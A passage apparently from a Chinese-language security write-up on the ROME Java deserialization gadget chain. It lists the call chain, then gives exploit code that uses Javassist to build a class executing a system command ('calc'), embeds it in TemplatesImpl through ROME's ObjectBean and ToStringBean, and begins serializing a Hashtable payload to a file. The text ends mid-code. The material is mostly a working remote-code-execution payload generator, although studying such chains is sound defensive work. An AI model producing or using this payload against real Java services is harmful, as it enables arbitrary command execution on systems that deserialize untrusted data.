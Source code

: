 ```bash
TemplatesImpl.getOutputProperties()
ToStringBean.toString(String)
ToStringBean.toString()
EqualsBean.beanHashCode()
EqualsBean.hashCode()
ObjetBean.hashCode()
HashTable.reconstitutionPut()
HashTable.readObject(ObjectInputStream)
```

### EXP

```bash
package RomeSec;

import com.sun.syndication.feed.impl.ObjectBean;
import com.sun.syndication.feed.impl.ToStringBean;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Hashtable;

public class HashTableExp {

    public static void main(String[] args) throws Exception{
        String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
        String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";

        // 创建恶意类
        ClassPool classPool = ClassPool.getDefault();
        classPool.appendClassPath(AbstractTranslet);
        CtClass ctClass = classPool.makeClass("cccc");
        ctClass.setSuperclass(classPool.get(AbstractTranslet));
        ctClass.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"calc\");");
        byte[] bytes = ctClass.toBytecode();

        // 创建TemplatesImpl对象
        Object templateImpl = Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();
        setFiled(templateImpl, "_bytecodes", new byte[][]{bytes});
        setFiled(templateImpl, "_name", "test");
        setFiled(templateImpl, "_tfactory", null);

        // 创建ToStringBean对象
        ToStringBean toStringBean = new ToStringBean(Templates.class, templateImpl);
        // 创建ObjectBean对象
        ObjectBean objectBean = new ObjectBean(ToStringBean.class, toStringBean);
        setFiled(objectBean,"_toStringBean", null);
        setFiled(objectBean, "_cloneableBean", null);

        // 创建HashTable
        Hashtable hashtable = new Hashtable();
        hashtable.put(objectBean, "test");

        // 序列化
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("HashTable.bin"));
```